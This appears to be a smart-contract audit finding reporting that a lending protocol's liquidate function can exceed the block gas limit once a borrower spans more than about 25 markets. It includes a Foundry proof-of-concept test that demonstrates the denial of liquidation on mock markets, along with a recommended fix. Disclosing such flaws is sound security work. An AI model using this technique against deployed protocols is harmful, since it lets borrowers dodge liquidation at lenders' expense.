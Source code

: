 Unique Garnet Reindeer

high

# Users liquidation can become impossible because reach gas limit

## Summary

When liquidate users' position, it can become impossible to liquidate because the `Market::liquidate` gas cost is too high and can reach the ethereum gas limit easily.


## Vulnerability Detail

When liquidate borrower position, `Market::liquidate` call trace: [`auditor.checkLiquidation`](https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/8f6ef1b0868d3ea3a98a5ab7e8b3a164857681d7/protocol/contracts/Auditor.sol#L195-L233) -> [`Market::accountSnapshot`](https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/8f6ef1b0868d3ea3a98a5ab7e8b3a164857681d7/protocol/contracts/Market.sol#L785-L817) to account every market account liquidity, but the the gas cost is too high. According to test call trace in local, every call `Market::accountSnapshot` cost about ~1187334 wei, so the current [ethereum gas limit](https://etherscan.io/block/19767464) and [optimism gas limit](https://optimistic.etherscan.io/block/119438983) 30,000,000 can easily reach if the borrower's markets more than 25(1187334 * 25 = 29683350), it can cause the liquidation become impossible. So malicious users can borrow more than 25 markets to cause their positions can't be liquidated.

PoC:

```solidity
function testDosDueReachGasLimit() external {
    irm.setRate(0);
    vm.warp(0);
    Market[25] memory markets;
    string[25] memory symbols = [
      "DAI", "USDC", "WETH", "WBTC", "UNI",
      "SYN", "LINK", "BTC", "ETH", "LTC",
      "XRP", "ADA", "DOGE", "UNI", "SYN",
      "LINK", "BTC", "ETH", "LTC", "XRP",
      "ADA", "DOGE", "TIME", "MUSK", "OP"
    ];
    for (uint256 i = 0; i < symbols.length; i++) {
      MockERC20 asset = new MockERC20(symbols[i], symbols[i], 18);
      markets[i] = Market(address(new ERC1967Proxy(address(new Market(asset, auditor)), "")));
      markets[i].initialize(
        "",
        3,
        1e18,
        InterestRateModel(address(irm)),
        0.02e18 / uint256(1 days),
        1e17,
        0,
        0.0046e18,
        0.42e18
      );

      auditor.enableMarket(markets[i], daiPriceFeed, 0.8e18);
      asset.mint(BOB, 50_000 ether);
      asset.mint(address(this), 50_000 ether);
      vm.prank(BOB);
      asset.approve(address(markets[i]), type(uint256).max);
      asset.approve(address(markets[i]), type(uint256).max);
      markets[i].deposit(30_000 ether, address(this));
    }

    // since 224 is the max amount of consecutive maturities where an account can borrow
    // 221 is the last valid cycle (the last maturity where it borrows is 224)
    for (uint256 m = 0; m < 221; m += 3) {
      vm.warp(FixedLib.INTERVAL * m);
      for (uint256 i = 0; i < markets.length; ++i) {
        for (uint256 j = m + 1; j <= m + 3; ++j) {
          markets[i].borrowAtMaturity(FixedLib.INTERVAL * j, 1 ether, 1.2 ether, address(this), address(this));
        }
      }
    }

    // repay does not increase in cost
    markets[0].repayAtMaturity(FixedLib.INTERVAL, 1 ether, 1000 ether, address(this));
    // withdraw DOES increase in cost
    markets[0].withdraw(1 ether, address(this), address(this));

    // normal operations of another account are not impacted
    vm.prank(BOB);
    markets[0].deposit(100 ether, BOB);
    vm.prank(BOB);
    markets[0].withdraw(1 ether, BOB, BOB);
    vm.prank(BOB);
    vm.warp(FixedLib.INTERVAL * 400);
    markets[0].borrowAtMaturity(FixedLib.INTERVAL * 401, 1 ether, 1.2 ether, BOB, BOB);

    // liquidate function to account's borrows DOES increase in cost
    vm.prank(BOB);
    uint256 gas_bef = gasleft();  
    markets[0].liquidate(address(this), 1_000 ether, markets[0]);
    uint256 gas_after = gasleft();
    // 30_000_000 is currently ethereum gas limit
    assertGt(gas_bef - gas_after, 30_000_000);
}
```

This case is modified based on `testMultipleBorrowsForMultipleAssets` test case, insert the case into `Market.t.sol` directly.

## Impact

Users can't be liquidated if their's borrow markets more than 25.


## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/8f6ef1b0868d3ea3a98a5ab7e8b3a164857681d7/protocol/contracts/Market.sol#L545-L601

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/8f6ef1b0868d3ea3a98a5ab7e8b3a164857681d7/protocol/contracts/Auditor.sol#L195-L262


## Tool used

vscode, Manual Review

## Recommendation

Redesign `Auditor#checkLiquidation` to decrease gas cost, or limit users max borrowable market numbers.

